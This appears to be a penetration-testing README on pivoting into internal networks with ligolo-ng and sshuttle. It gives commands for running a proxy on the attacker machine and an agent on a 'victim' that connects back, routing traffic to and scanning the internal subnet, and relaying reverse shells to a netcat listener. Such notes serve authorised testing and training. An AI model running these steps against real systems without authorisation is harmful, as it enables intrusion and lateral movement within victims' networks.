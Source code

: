 # Pivoting

# Ligolo-ng
### Download link for ligolo-ng<br/>
Link: https://github.com/nicocha30/ligolo-ng<br/>

### Creating Interface
```
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### PROXY - server needs to be run on attacker machine 
#### start the server
```sudo ./proxy -laddr 0.0.0.0:<port> -selfcert```

### Agent - agent needs to be run on victim machine
#### connect the agent to server
##### windows agent
```.\agent.exe -connect <LHOST>:lport -ignore-cert```
##### linux agent
```./agent -connect <LHOST>:lport -ignore-cert```

### List the sessions
```ligolo-ng » session ``` #list session<br/>
```[Agent : client@client-virtual-machine] » ifconfig``` #check different network interfaces that victim connected
```You will receive result something like below
   ┌───────────────────────────────────────────────┐
   │ Interface 4                                   │
   ├──────────────┬────────────────────────────────┤
   │ Name         │ ens37                          │
   │ Hardware MAC │ 00:0c:29:45:60:ff              │
   │ MTU          │ 1500                           │
   │ Flags        │ up|broadcast|multicast|running │
   │ IPv4 Address │ 10.10.10.148/24                │
   │ IPv6 Address │ fe80::f04d:685d:278c:9642/64   │
   └──────────────┴────────────────────────────────┘
```

### Now to pivot to above example network run
```sudo ip route add ip/24 dev ligolo``` #ip here with above example 10.10.10.0/24

### Finally start the tunnel
```[Agent : client@client-virtual-machine] » tunnel_start```

### Now you can access all the machines inside the above example network 10.10.10.0/24
```sudo nmap 10.10.10.0/24```
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/a703906f-b7db-4a33-b3fd-0bfed798101e)

# Transfer files or gain reverseshells from internal network to external network
Once you create the tunnel to internal network through a pivot server(agent)</br>
Run below command on server(attacker/proxy)</br>
It will create a listener on agent or victim machine & forward the traffic to attacker machine when we tried accessing it from internal network with agentserver(pivotserver) ip & listener port we used.</br>
```
listener_add --addr agentip(pivot):agentlistenport --to proxyip(attacker):proxyport --tcp
listener_list
```
<img width="3360" height="436" alt="image" src="https://github.com/user-attachments/assets/5332ff50-d398-490c-a68b-a4f29e1f4909" />
Start the HTTP server or netcat listener on proxy port that we mentioned above</br>
<img width="1525" height="146" alt="image" src="https://github.com/user-attachments/assets/96e6ddd7-0d1a-4762-aff4-053a06786c1a" />
Now access the attacker machine from internal network with agentlistener ip&port
<img width="2574" height="59" alt="image" src="https://github.com/user-attachments/assets/dd0d1399-9f0f-4f3c-aab4-ed7da9ddabdf" />


# Sshuttle<br/>
### Install sshuttle on kali or attacker machine<br/>
``` sudo apt install sshuttle```
### Start the tunnel<br/>
```sudo sshuttle -r targetuser@targermachineip targetpivotnetwork```  #example: sudo sshuttle -r client@192.168.1.20 10.10.10.0/24<br/>
### Now use curl or wget or browser to access pivoted network services<br/>
curl http://pivotnetworkmachineip:port/   #example: curl http://10.10.10.132:80/<br/>
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/2d0da11f-063c-444b-a71c-17c8eec34ca9)



